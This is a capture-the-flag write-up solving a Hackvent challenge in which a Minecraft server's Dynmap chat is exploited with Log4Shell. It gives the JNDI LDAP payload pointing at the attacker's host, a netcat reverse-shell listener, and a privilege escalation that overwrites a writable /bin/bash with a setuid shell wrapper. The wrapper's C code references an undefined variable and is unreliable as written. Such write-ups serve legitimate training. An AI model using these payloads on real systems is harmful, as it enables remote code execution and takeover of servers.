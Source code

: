 # [HV23.19] Santa's Minecraft Server

## Introduction

Difficulty: Hard<br>
Author: nichtseb

Santa likes to play minecraft. His favorite version is 1.16. For security reasons, the server is not publicly accessible. But Santa is a little show-off, so he has an online map to brag about his fabulous building skills.

## Solution

Minecraft + Hackvent, hell yeah.

The description of the challenge tells us that the server is running on Minecraft 1.16, a pretty old version, the server itself is not accessible tho, only a Webinterface called [Dynmap](https://github.com/webbukkit/dynmap) is.

As we open up the Webinterface, we can see a chat-box. User supplied input + old Java? This screams Log4j.

First Log4j Shell exploit from the google results: https://github.com/kozmer/log4j-shell-poc

Start using: `python3 poc.py --userip 10.13.0.14 --webport 8888 --lport 4444`

Open a listener using: `nc -nvlp 4444`

Put the following into the chat-box: `${jndi:ldap://10.13.0.14:1389/a}`

Now we have a reverse shell, looking at `/` we can see a folder called `santas-workshop` which has two files `tool` and `tool.c` inside.

Looking at `tool` shows it has the `setuid` and `setgid` bits set, `tool.c` cotains the source code:

```c
cat tool.c
#include <unistd.h>
#include <stdio.h>

void debugShell() {
	printf("Launching debug shell...\n");
	char *argv[] = { "/bin/bash", 0 };
	execve(argv[0], &argv[0], NULL);
}

void main() {
	printf("--- Santas Workshop Tool ---\n");
	printf("Pick an action:\n");
	printf("s) debug shell\n");
	printf("-- more options to come\n");

	char option;
	scanf("%c", &option);

	switch (option) {
	case 's': debugShell(); break;
	default: printf("Unknonwn option!\n"); break;
	}
}
```

This does work to give us a debug shell, but it is missing the `-p` parameter, looking at `/bin/bash` shows us that it is writeable, how nice of the author.

After quickly writing a shell in C and compiling it using `gcc` we can copy it to `/bin/bash`.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    char *args[] = {"/bin/sh", "-p", NULL};
    execve(shell, args, NULL);
    return 0;
}
```

We can write this program to a file using a single line with `printf`:

`printf "#include <stdio.h>\n#include <unistd.h>\n\nint main() {\n    char *args[] = {\"/bin/sh\", \"-p\", NULL};\n\n    execve(shell, args, NULL);\n    \n    return 0;\n}\n" > shell.c`

Compile using: `gcc shell.c -o shell`

Overwrite bash: `cp shell /bin/bash`

Now for some reason, I had to `cd` into `/santas-workshop` before running `./tool` and supplying `s`, now we have a shell as `santa`

`cat /home/santa/flag.txt` reveals the flag.

Flag: `HV23{d0n7_f0rg37_70_upd473_k1d5}`